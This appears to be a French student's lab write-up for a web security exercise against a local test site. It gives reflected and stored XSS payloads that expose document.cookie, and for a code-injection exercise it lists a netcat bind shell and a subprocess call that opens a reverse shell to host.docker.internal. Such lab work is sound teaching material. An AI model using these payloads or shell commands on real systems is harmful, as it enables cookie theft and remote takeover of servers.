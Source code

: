 # TP6 : 

## Exercice 2 

### Question 1 :

Una attaque XSS réfléchie est une attaque d'insertion de code sur un sitedans l'adresse html.

Pour attaquer le site nous pouvons ajouter le code suivant à l'adresse pour afficher les cookies actuels : 

    http://127.0.0.1:5000/?q="><script> alert(document.cookie)</script>

### Question 2 :

L'attaque stocké a elle lieu sur les site ou l'on peut publier des éléments comme des forum,
Sur notre site on peut injecter en publiant le commentaire suivant pour effectuer la même action :

    <script> alert(document.cookie)</script>

## Exercice 4 :

En exécutant la commande suivante, on se rend compte que nous sommes sur le serveur :

    print(os.getcwd())


nc -l 5555 -v -e /bin/sh

import subprocess

subprocess.run("ls")

au niveau du site on voit que la commande est éxécuter 
mais au niveau du serveur on peut voir le résultat

subprocess.run(["nc","host.docker.internal","55555","-e","/bin/sh"])

whoam i 
